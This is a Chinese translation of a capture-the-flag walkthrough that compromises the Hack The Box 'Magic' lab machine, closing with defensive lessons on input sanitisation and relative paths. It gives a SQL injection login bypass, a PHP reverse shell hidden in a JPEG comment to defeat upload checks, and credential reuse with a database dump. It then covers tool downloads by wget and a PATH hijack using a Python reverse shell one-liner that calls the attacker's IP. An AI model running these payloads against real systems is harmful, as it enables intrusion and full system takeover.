# 黑盒子演练-魔法

> 原文：<https://infosecwriteups.com/hack-the-box-walkthrough-magic-d633fb94bca4?source=collection_archive---------1----------------------->


[https://www.hackthebox.eu/home/machines/profile/241](https://www.hackthebox.eu/home/machines/profile/241)

> 魔法是一个中等难度的机器，由 [TRX](https://www.hackthebox.eu/home/users/profile/31190) 创造的盒子破解而来。我的过程包括简单的 SQLi、隐写术和二进制植入。
> 
> 这是一个未加工的预演，所以我在一个又一个拉比面前跌倒的过程在这里有很好的记录。它也反映了我在使用机器时的思考过程**,我希望这可以帮助其他像我一样有抱负的渗透测试人员更好地思考。**

## 总结:

该机器从一个网页启动，该网页的登录页面易受 SQLi 攻击。成功注入后，我们将被重定向到接受 jpeg、jpg 和 png 文件上传的页面。这些文件可以被武器化，让我们能够在系统中建立一个外壳。在获得 shell 后，由于密码重用错误，我们可以横向遍历到另一个用户，这将允许我们找到容易被劫持的二进制文件。成功利用这一点将最终导致我们在系统中建立一个根外壳。

在本演练中，我将在最后留下上标作为讨论点。

在我开始之前，我会将机器的 IP 地址添加到我的`/etc/hosts`文件中，以便于访问。

```
$ sudo vi /etc/hosts
~ 10.10.10.185    magic.htb
```

## 初始侦察:

```
$ nmap -p- --min-rate 1000 magic.htb -oN pre-nmap
$ nmap -sC -sV -T4 -p 22,80 magic.htb -oN nmap.txt
```

我使用第一个 nmap 命令来确保我能够覆盖我正在测试的机器的所有端口。一旦第一个命令返回它的初始结果，我就在第二个 nmap 命令中插入可用端口，以便更详细地查看。



详细的 nmap 结果

这很简单，因为通常的端口 22 和 80 在这台机器上是开放的。

## Web 枚举和简单 SQLi

我们要做的第一件事是枚举端口 80 中的服务。

在检查 web 应用程序时，我看到了一个简单的登录页面。尝试模糊目录，模糊用户名和密码，并检查代码中有价值的提示，但一无所获，所以我猜前进的道路真的是 SQL 注入。

下面的 SQLI 备忘单帮了大忙:

[](https://github.com/AdmiralGaust/SQL-Injection-cheat-sheet) [## AdmiralGaust/SQL 注入备忘单

### 注意:如果是 get 请求，不要忘记对字符进行 url 编码。param = '-->尝试获取错误 param = "-->尝试…

github.com](https://github.com/AdmiralGaust/SQL-Injection-cheat-sheet) 

在用通常的有效载荷试了几次之后，下面的那个通过了。

```
' or 1=1#
```



对用户名和密码字段使用相同的有效负载

## 图像上传页面和反向壳隐写术



上传页面欢迎我们成功利用 SQLI

使用上述有效负载后，我们将被重定向到此页面。作为一个健全性检查，因为我还没有做任何目录枚举，我试着退出并直接访问`http://magic.htb/upload.php`，但它不起作用。

目前看来，下一步似乎是上传一个包含反向 shell 的文件，然后我们可以从外部调用它，以便能够在系统中建立立足点。



我试着上传一个. txt 文件来检查他们是否净化了他们的输入，他们做到了。然而，我们还不确定他们的净化方法有多复杂，所以我试图再次绕过它，这次是通过改变我的反向 shell 脚本的文件扩展名。我将脚本保存为`rev.jpg`，但是当我上传时，它返回了下面的错误。



哈哈哈对不起，我在努力黑你

它似乎检测到这不是一个合法的 jpg 文件，所以我很有信心，清理方法包括检查文件的神奇字节，以确保它是一个合法的文件类型。

这实际上是我第一次遇到这种问题，所以我最初的想法是，我需要找到一种方法，在一个合法的 jpg 文件中隐藏一个反向 shell 有效负载。

下面的链接非常有助于学习更多关于这个主题的知识和制作我使用的实际有效载荷。

[](https://github.com/xapax/security/blob/master/bypass_image_upload.md) [## xapax/安全

### 获得外壳的一个常见方法实际上并不是一个漏洞，而是一个特性！通常情况下，有可能…

github.com](https://github.com/xapax/security/blob/master/bypass_image_upload.md) [](https://github.com/pentestmonkey/php-reverse-shell) [## pentest monkey/PHP-reverse-shell

### 通过在 GitHub 上创建一个帐户，为 pentest monkey/PHP-reverse-shell 开发做出贡献。

github.com](https://github.com/pentestmonkey/php-reverse-shell) [](https://stackoverflow.com/questions/4241369/using-linux-how-can-i-pass-the-contents-of-a-file-as-a-parameter-to-an-executabl) [## 使用 linux 我如何将文件的内容作为参数传递给可执行文件？

### 感谢贡献一个堆栈溢出的答案！请务必回答问题。提供详细信息并分享…

stackoverflow.com](https://stackoverflow.com/questions/4241369/using-linux-how-can-i-pass-the-contents-of-a-file-as-a-parameter-to-an-executabl) 

我使用了 exiftool 模块`Comment`,在这里我们可以编写反向 shell 有效负载，我们打算在任意介质中作为注释运行。因为 web 特性需要一个 jpg、jpeg 或 png，所以我使用一张实际的图片作为我的媒介，然后使用 pentestmonkey 的 php 脚本作为我的反向 shell。

```
$ exiftool -Comment="$(< rev.php)" test69.jpg
```

因为有效负载是一个多行脚本，所以我使用了`$(< file)`命令，而引号有助于保留脚本中的空白。

成功实现隐写术后，通过 exiftool 检查时，它应该是这样的。



然后，我们将其重命名为:

```
$ mv test69.jpg test6969.php.jpg
```

当我们通过 web 服务器调用它时，它将被解释为一个 php 文件。

此时，我们已经将一个合法的 jpg 文件武器化了，它能够绕过文件扩展名检查和魔术检查。剩下唯一要做的就是检查它是否工作。

在单独的终端上，设置监听器。

```
$ nc -nvlp 6969
```

确保您使用的端口是您在上传的反向 shell 脚本中输入的端口。

一旦我们访问上传时保存我们的武器化 jpg 文件的路径，它将看起来像这样。



而我们的听众会像这样。



我们找到贝壳了！

## 初始 Shell 和用户 Theseus

```
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
```

我通常从这个命令或者它的变体开始，来改进我所拥有的 shell。

每当我得到一个 shell 作为`www-data`，我总是检查`/var/www`目录中的工件，这些工件可以给我如何前进到下一个用户的线索。在列举了上述目录后，我看到了很多在`/var/www/Magic`下的文件，其中最著名的文件名是`db.php5`。

从该文件中，我们能够检索一组凭据，如下所示:

*   **用户名:**忒修斯
*   **密码:** iamkingtheseus

在获得 theseus 的证书后，我立即尝试通过 ssh 登录。

```
$ ssh theseus@magic.htb
```



拒绝

回到 db.php5 文件，我注意到它是一个 mysql db 文件。在检查服务是否正在运行时，我看到了以下内容:

```
$ systemctl status mysql
```



是的，它在跑

然后，我使用我们之前收集的凭证转储数据库。

```
$ mysqldump --opt --user=theseus --password Magic > Magic.sql
```

关于这方面的进一步阅读，你可以参考下面的链接。

[](https://alvinalexander.com/blog/post/mysql/dump-mysql-database-schema/) [## mysqldump 命令——如何转储(备份)一个 MySQL 数据库

### MySQL 备份常见问题——如何备份/转储 MySQL 数据库模式？答:使用 mysqldump 数据库实用程序。在一个…

alvinalexander.com](https://alvinalexander.com/blog/post/mysql/dump-mysql-database-schema/) 

检查文件中的可读字符串。

```
$ strings Magic.sql
```



我们找到了另一组凭据，但是，此时我已经不知道该在哪里使用它们，尽管出于本能，我尝试了以下命令:

```
$ su theseus
Password: Th3s3usW4sK1ng
```



我们得到了用户忒修斯！

似乎用户 theseus 出于数据库管理的目的创建了一个名为`admin`的数据库用户，然而即使他创建了一个不同的用户，他仍然重用了他的服务器密码。下面列出了我们检索到的凭据的摘要。

*   **数据库用户名** : admin
*   **数据库密码** : Th3s3usW4sK1ng
*   **服务器用户名** : theseus
*   **服务器密码** : Th3s3usW4sK1ng

我还尝试使用我们发现的新凭证登录网络服务器，但是，它重定向到我们之前通过 SQLI 发现的同一上传页面，所以我想我们现在可以关闭那里有任何线索的可能性。

## 无密码 SSH 和基于工具的权限提升枚举

在手动枚举时，我意识到总是通过我们已经建立的图像上传立足点重新登录对我来说是相当麻烦的，所以我在/home/theseus/中创建了一个文件。ssh/authorized_keys 并执行以下操作:

```
$ cat ~/.ssh/id_rsa.pub | xclip -se c
```

在我的攻击机器中，我打印了我的公钥，并通过管道将它传输到 xclip 中，以将其复制到我的剪贴板中。

```
$ echo “<public key>” >> ~/.ssh/authorized_keys
```

然后，在远程机器上，我将我的公钥附加到 authorized_keys 文件中。替换文件实际上是不赞成的，因为其他 pentesters 可能会因此而不方便，所以我附加了我的。(尽管在这之后，我经历了不顾及他人的 skiddies 重写整个文件。Grrrrrr。HTB VIP 值$$$的家伙。)



无密码的 SSH 好用！

这就是设置无密码 ssh 的基本方法。

为了帮助我们的枚举，我决定使用`linpeas`。你可以在下面的链接中找到它。

[](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/) [## Carlos polop/特权升级-牛逼-脚本-套件

### 在这里，您可以找到用于 Windows 和 Linux/Unix*的权限提升工具(在不久的将来也会用于 Mac)。这些…

github.com](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/) 

为了将文件从我们的主机传输到机器上，我决定在我们的主机上设置一个简单的 HTTPServer，然后从受害者机器上远程获取文件

```
$ python -m SimpleHTTPServer 6969
```

*   攻击文件所在的机器

```
$ wget 10.10.14.25:6969/linpeas.sh
```

*   远程机器



在运行 linpeas 时，我看到了许多有趣的发现，其中一些被转储在下面。



然而，在 linpeas 给我的所有东西中，没有一件第一眼看上去很突出。在对一些发现进行采样后，我决定使用另一个名为`pspy64`的工具。

Pspy“窥探”系统，跟踪用户在系统上执行的命令、cron 作业等，并观察系统的反应。我们可能会特别使用它来查找以 root 权限运行的服务/命令。

你可以在下面的链接中找到它。

[](https://github.com/DominicBreuker/pspy) [## 多米尼克·布鲁克/pspy

### pspy 是一个命令行工具，旨在无需 root 权限即可窥探进程。它可以让你看到…

github.com](https://github.com/DominicBreuker/pspy) 

```
$ python -m SimpleHTTPServer 6970
```

*   攻击机器

```
$ wget 10.10.14.25:6970/pspy64
```

*   远程机器

```
$ chmod +x pspy64$ ./pspy64
```

在对机器进行了相当长一段时间的监视后，很少有人引起 root 的反应。其中两项如下:



每当有人通过 ssh 连接到机器时，就会发生这种情况



使用我们前面的 linpeas.sh 结果中列出的一个有趣的二进制文件:/bin/sysinfo，会出现以下序列

我们可以在上面的图片中看到，根操作显示为标识符 UID=0。如果你正在使用 pspy64，这是你最有可能会寻找的东西。

## 劫持 Sysinfo 二进制文件并获取根外壳

我试图劫持被调用的`run-parts`二进制文件，但是，似乎环境变量总是被忽略，新的变量被硬编码到命令中。这样做是为了精确地防止 hijacking⁴.

然而，对于`sysinfo`序列，没有环境变量被初始化，只有相对路径被调用。这意味着我们可以劫持二进制调用的任何命令。

为了实现这一点，我们执行以下操作:

```
$ export PATH=/tmp/mok:$PATH
```

这是为现有的`$PATH`变量添加一个新路径。$PATH 变量包含系统搜索要执行的二进制文件的路径。如果您预先计划了自己的路径，系统将首先直接进入该路径查找要执行的二进制文件，然后遍历变量中列出的其他路径(如果该二进制文件不在前面的路径中)。

我以此为指导:

[](https://www.baeldung.com/linux/path-variable) [## 在 Linux 上向 Linux 路径变量- Baeldung 添加路径

### 在这个快速教程中，我们将关注如何向 Unix PATH 变量添加路径。路径变量是一个环境…

www.baeldung.com](https://www.baeldung.com/linux/path-variable) 

```
$ vi /tmp/mok/fdisk~ python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.25",5678));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

保存后，使用`chmod`使其成为可执行文件。

```
$ chmod +x /tmp/mok/fdisk
```

将会发生的是，当 sysinfo 调用命令`fdisk -l`时，它将直接进入`/tmp/mok`并运行`fdisk`。因为 fdisk 包含我们的反向 shell 有效负载，所以我们只需要设置一个监听器，然后执行 sysinfo 命令。

```
$ nc -nvlp 5678
```

*   攻击机器

```
$ sysinfo
```

*   远程机器



我们找到贝壳了！

```
$ ifconfig | fgrep 10\. | awk '{print $2}' && whoami && hostname
```



我们终于扎根了！

## 其他讨论要点和要点

1.  输入净化是这台机器中反复出现的主题，我想强调它的重要性，因为现在许多开发人员并不真正关心安全的编码实践。不实现输入净化方法，甚至草率地实现输入净化方法，可能并最终会在未来导致大量的问题。预防是王道，在这台机器的 SQLI 部分实现一个简单的输入验证可以使立足点变得复杂得多。
2.  魔术字节—问题在于，大多数实现只是检查文件的前几个字节来“确认”其合法性，因此实际上可以只编写一个反向 shell 脚本，将允许的文件类型的魔术字节放在最开始，并使用双扩展名保存它，这样就可以利用漏洞了。除此之外，另一个很好的例子是我的队友 SymR 写的。你可以在这里阅读他的文章。
3.  密码重用有时可能非常低调。如果实施得当，它实际上可以作为您资产的纵深防御机制。这台机器的密码重复使用部分非常准确，在野外看到这种情况并不罕见。
4.  劫持是我最喜欢的特权提升方法之一。在这台机器上，我们能够劫持 sysinfo 二进制文件，因为当它调用其他二进制文件时，它使用它们的相对路径来调用它们。相对路径可能非常有用，但也非常容易破解。当使用相对路径时，确保已经部署了一组细致的控制措施，以防止它成为特权提升媒介。

这台机器一般很简单。我真的很喜欢这个魔术，以及劫持的过程。这是我最喜欢的 HTB 盒子之一。

我的演练到此结束。感谢您的阅读！

> 作为 10 月 PentesterLab 赠品的一部分提交。